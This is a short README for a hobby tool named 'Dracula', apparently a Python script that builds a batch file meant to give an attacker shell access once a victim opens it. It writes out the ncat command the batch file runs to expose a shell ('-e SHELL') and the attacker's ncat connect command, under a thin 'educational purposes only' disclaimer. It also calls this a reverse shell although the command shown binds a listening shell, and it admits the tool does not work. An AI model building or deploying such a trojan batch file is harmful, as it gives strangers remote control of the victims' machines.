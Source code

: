 **THIS IS ONLY FOR EDUCATIONAL PURPOSES, DO NOT USE THIS**
NOTE TO SELF: THIS DOESNT WORK FOR SOME REASON, FIX THAT

```
        _____                       _       
        |  __ \                     | |      
        | |  | |_ __ __ _  ___ _   _| | __ _ 
        | |  | | '__/ _` |/ __| | | | |/ _` |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__,_|\___|\__,_|_|\__,_|

```

This is a project i whipped up in like a single day lol, work in progress

# How it Works
uses ncat command to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Install nmap (on linux systems)

        sudo apt install nmap 

2. Run the dracula.py file and enter the required info
3. A batch file is generated 

### **Attacker's Side**

set up a listener using ncat and wait for the client to open the batch file.

```
ncat IP_ADDR_CLIENT PORT
```
replace the IP_ADDR_CLIENT with ip addr of client and PORT with port used in the attack

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```
